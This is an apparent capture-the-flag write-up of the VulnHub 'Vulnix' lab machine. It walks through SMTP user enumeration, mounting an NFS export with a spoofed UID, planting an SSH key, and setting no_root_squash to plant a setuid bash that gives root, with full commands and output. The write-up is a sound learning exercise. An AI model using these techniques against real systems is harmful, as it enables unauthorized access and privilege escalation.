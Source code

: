 ﻿### Vulnix Writeup
So today it's the Vulnix machine by rebootuser which you can find hosted at https://www.vulnhub.com/entry/hacklab-vulnix,48/

So we start off with the usual nmap scan and get a few random services and no web server on this one.
```
nmap -v -sV -Pn -n 192.168.147.158 
```

```
PORT     STATE SERVICE  VERSION                    
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)                    
25/tcp   open  smtp     Postfix smtpd                                                                 
79/tcp   open  finger   Linux fingerd                                                                 
110/tcp  open  pop3     Dovecot pop3d                                                                 
111/tcp  open  rpcbind  2-4 (RPC #100000)          
143/tcp  open  imap     Dovecot imapd                                                                 
512/tcp  open  exec     netkit-rsh rexecd          
513/tcp  open  login?                              
514/tcp  open  shell    Netkit rshd                
993/tcp  open  ssl/imap Dovecot imapd                                                                 
995/tcp  open  ssl/pop3 Dovecot pop3d                                                                 
2049/tcp open  nfs_acl  2-3 (RPC #100227)  
```
Some interesting things here, first off the nfs running on 2049 shows us a possible user named vulnix.
```
root@sushi:~# showmount -e 192.168.147.158
Export list for 192.168.147.158:
/home/vulnix *
```
So we check it on the SMTP and yes that is a valid user.
```
root@sushi:~# nc -nv 192.168.147.158 25
(UNKNOWN) [192.168.147.158] 25 (smtp) open

220 vulnix ESMTP Postfix (Ubuntu)
500 5.5.2 Error: bad syntax
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY crappy
550 5.1.1 <crappy>: Recipient address rejected: User unknown in local recipient table
^C
```
So what is in Vulnix's home folder? We try mounting it and if we force it to use nfs version 3 or lower we can see the UID and GID for the owner is 2008 which we will need in a second.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 20 20:26 jail
drwxr-xr-x 2 root root 4096 Dec 20 20:27 opt
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 vulnix
root@sushi:/mnt# cd vulnix
bash: cd: vulnix: Permission denied
```
So awesome we can't actually access the folder, but I'm assuming if we have a user named vulnix with the same UID then it won't be a problem.
```
root@sushi:/mnt# useradd -u 2008 vulnix
root@sushi:/mnt# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd vulnix
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 5 root   root   4.0K Mar 18 20:24 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```
Nothing really in there, lets create some ssh keys and add the public key to the vulnix users authorized_keys.
```
root@sushi:/# ssh-keygen                           
Generating public/private rsa key pair.            
Enter file in which to save the key (/root/.ssh/id_rsa):                                              
Enter passphrase (empty for no passphrase):        
Enter same passphrase again:                       
Your identification has been saved in /root/.ssh/id_rsa.                                              
Your public key has been saved in /root/.ssh/id_rsa.pub.                                              
The key fingerprint is:                            
SHA256:SsY11VtkZekosDWAc+sMetO6J5GLsnWAkQgdNxaTRAk root@sushi                                         
The key's randomart image is:                      
+---[RSA 2048]----+                                
|..E=O+  ..o. .o.+|                                
|. oo+o o + o...o |                                
| . o    = = .oo  |                                
|    o. o + ... . |                                
|   . .= S   .    |                                
|     +.* +       |                                
|     .+.=        |                                
|   ....+ .       |                                
|   .o  .+        |                                
+----[SHA256]-----+                                
root@sushi:~# cd /root/.ssh                              
root@sushi:~/.ssh# ls                              
id_rsa  id_rsa.pub  known_hosts                    
root@sushi:~/.ssh# su vulnix                       
$ cd /mnt/vulnix                                   
$ mkdir .ssh                                       
$ cd .ssh                                          
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtV4eYiSqrw0sfD2Plm+AFfS99c5BsN4Xc67xWiIcN9gqxk8V/x3AGEUwLNNuAPAu/+inDQkv5HdKJwL56cgKKzDpeNtVaMwd8z3Xx1mHercAeIjyyYdl5HHxDgId23QIfgGJByFTLM77tRuJCiCPG/2EaCaAaykaIiobKorI2ujc61Z3Guzja/DXzSzmnGzeG/zSopdkRuUHu1ywQqj2D8GoJob4SL67juspotBA2DBX37nPpOvvy0drqK0z6UlyUj+ChZh8c15zOftJJuD4pImXKKX5T/pxprockcpCyUAQNw2Q+Ug5KgMo6g9WvwNAKXMOgDWDT5DKuAqjgmm1/ root@sushi > authorized_keys                                             
$                                                  
```
And then we can ssh onto the box with the vulnix account nice.
```
root@sushi:~/.ssh# ssh vulnix@192.168.147.158      
The authenticity of host '192.168.147.158 (192.168.147.158)' can't be established.                    
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.                          
Are you sure you want to continue connecting (yes/no)? yes                                            
Warning: Permanently added '192.168.147.158' (ECDSA) to the list of known hosts.                      
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)                                   

 * Documentation:  https://help.ubuntu.com/        

  System information as of Sun Mar 18 17:35:22 GMT 2018                                               

  System load:  0.0              Processes:           89                                              
  Usage of /:   90.2% of 773MB   Users logged in:     0                                               
  Memory usage: 7%               IP address for eth0: 192.168.147.158                                 
  Swap usage:   0%                                 

  => / is using 90.2% of 773MB                     

  Graph this data and manage this system at https://landscape.canonical.com/                          


The programs included with the Ubuntu system are free software;                                       
the exact distribution terms for each program are described in the                                    
individual files in /usr/share/doc/*/copyright.    

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                  
applicable law.                                    

vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 athlon i386 GNU/Linux
```
So first off we check if this account can do anything with sudo, and we can run sudoedit on the exports file good deal.
```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
So looking at /etc/exports, we can disable the root_squashing for the vulnix home folder which will allow us to copy something like bash and give it setuid permissions. We could also add roots home folder to the /etc/exports with no_root_squash and echo in our ssh key to his authorized_keys and get root access that way.
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,no_root_squash)
```
So the next step really tripped me up as I'm just not used to doing this for these vm's, but to get the config change to take effect we have to actually reboot the machine. Remember to unmount the home folder also or it will take forever. When it's back up, we mount the home directory again and copy over /bin/bash.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# cd vulnix
root@sushi:/mnt/vulnix# cp /bin/bash .
root@sushi:/mnt/vulnix# chmod 4777 bash
root@sushi:/mnt/vulnix# ls -lah                    
total 1.3M                                         
drwxr-x--- 4 vulnix vulnix 4.0K Mar 18 14:16 .     
drwxr-xr-x 5 root   root   4.0K Mar 18 21:09 ..    
-rwsrwxrwx 1 root   root   1.3M Mar 18 14:16 bash  
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout                       
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc                            
drwx------ 2 vulnix vulnix 4.0K Mar 18 13:35 .cache
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile                           
drwxr-xr-x 2 vulnix vulnix 4.0K Mar 18 13:34 .ssh  
```
Then back in our ssh session as the vulnix user, we just run bash in the home folder with the -p flag to preserve file permissions.
```
vulnix@vulnix:~$ id                                
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)                                                 
vulnix@vulnix:~$ ./bash -p                         
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# id                                       
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)                            
bash-4.4# cd /root                                 
bash-4.4# ls                                       
trophy.txt                                         
bash-4.4# cat trophy.txt                           
cc614640424f5bd60ce5d5264899c3be                   
```
So that was pretty fun, having to reboot the machine was different and the rest of it was interesting learning a bit about and using nfs for the first time in awhile.  As always thanks to VulnHub and the author rebootuser for the hard work.


